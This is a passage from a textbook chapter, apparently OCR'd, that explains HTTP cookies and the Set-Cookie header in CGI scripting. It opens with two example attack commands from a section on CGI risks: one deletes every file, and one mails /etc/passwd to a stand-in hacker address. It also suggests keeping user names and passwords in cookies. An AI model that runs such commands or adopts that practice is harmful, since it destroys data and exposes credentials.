

|
29.5 HTTP Cookies	1019
rm –fr	// delete all files on the system
mail hacker@hacker.com </etc/passwd	// mail system password file to hacker
Some of these disadvantages disappear with some of the approaches that follow later in  this chapter.
HTTP Cookies
One way to make CGI scripts more interactive is to use cookies. A cookie is a piece of  information that the client stores on behalf of the server. The information that is stored in  the cookie comes from the server as part of the server’s response to an HTTP request.  A client may have many cookies stored at any given time, each one associated with a  particular Web site or Web page. Each time the client visits that site/page, the browser  packages the cookie with the HTTP request. The Web server can then use the information  in the cookie to identify the user and, depending on the nature of the information collected,  possibly personalize the appearance of the Web page. The Web server can also add or  change the information within the cookie before returning it.
All cookies have an expiration date. If a cookie’s expiration date is explicitly set to  some time in the future, the browser will automatically save the cookie to the client’s hard  drive. Cookies that do not have an explicit expiration date are deleted from the computer’s  memory when the browser closes.
As a cookie is sent back to the server with each new request, they become a useful  mechanism to identify a series of requests that come from the same user. When a request  is received from a known user, the unique identifier can be extracted from the cookie and  used to retrieve additional information from a user database. When a request is received  with no cookie, or with a cookie that does not contain the necessary identifier, the request  is assumed to be from a new user, and a new identifier is generated before the response is  sent back to the client, and a new record added to the server’s user database.
Cookies can be used to store registration information or preferences, for example, in a  virtual shopping cart application. A user name and password could be stored in a cookie  so that when the user returns to use the database, the script could retrieve the cookie from  the client side and extract the previously specified user name/password. The format for a  cookie is as follows:
Set-Cookie: NAME =VALUE; expires = DATE; path = PATH;  [domain = DOMAIN_NAME; secure]
The UNIX shell script shown in Figure 29.5 could be used to send a cookie (although user  name and password data would normally be encrypted in some way). Note, however, that

29.5
Figure 29.5
A UNIX shell script  to generate a cookie.